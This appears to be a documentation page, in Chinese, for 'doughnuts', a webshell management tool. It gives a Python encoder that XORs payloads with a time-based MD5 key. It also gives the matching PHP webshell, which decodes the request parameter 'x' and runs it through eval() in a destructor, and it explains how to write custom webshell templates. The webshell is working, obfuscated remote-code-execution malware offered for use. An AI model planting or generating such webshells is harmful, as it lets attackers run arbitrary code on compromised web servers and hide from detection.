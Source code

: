 ```python
from hashlib import md5
from base64 import b64encode
import time


@alias(True)
def run(data: str):
    format_time = time.strftime("%Y-%m-%d %H:%M", time.localtime())
    key = md5(format_time.encode()).hexdigest().encode()
    data = data.encode()
    cipher = bytes(data[i] ^ key[i % 32] for i in range(len(data)))
    cipher = b64encode(cipher).decode()

    return cipher
```
对应的php webshell
```php
<?php 
class COMI { 
    public $c='';
    function __destruct() {
        return eval(substr($this->c, 0));
    }
}
date_default_timezone_set("PRC");
$comi = new COMI();
$password = &$password1;
$password1 = $_REQUEST['x'];
$post = &$password;
$post=base64_decode($post);
$key=md5(date("Y-m-d H:i",time()));
for($i=0;$i<strlen($post);$i++){
    $post[$i] = $post[$i] ^ $key[$i%32];
}
$lnng1 = &$lnng;
$lnng = $post;
$lnng2 = $lnng1;
@$comi->c = substr($lnng2, 0);
?>
```

## 自定义webshell模板
1. 进入doughnuts/webshell_plugins目录
2. 新建/拷贝一个py文件,起一个名字,以test.py为例
3. 文件中只需要写一个get_php函数,类似于
```python
def get_php(keyword: int = 4, passwd: str = "", salt: str = ""):
    ...
```
4. 各个参数解释
    - keyword是一个数字对应一种请求方式,分别对应: GET->3 POST->4 COOKIE->5 HEADER->6
    - passwd是连接webshell的密码
    - salt是用于加密算法的盐,你可以不需要使用这个参数,但是函数定义里必须存在
5. 重启doughnuts或者在doughnuts使用`reload generate`重新加载generate命令,即可使用doughnuts生成自定义webshell
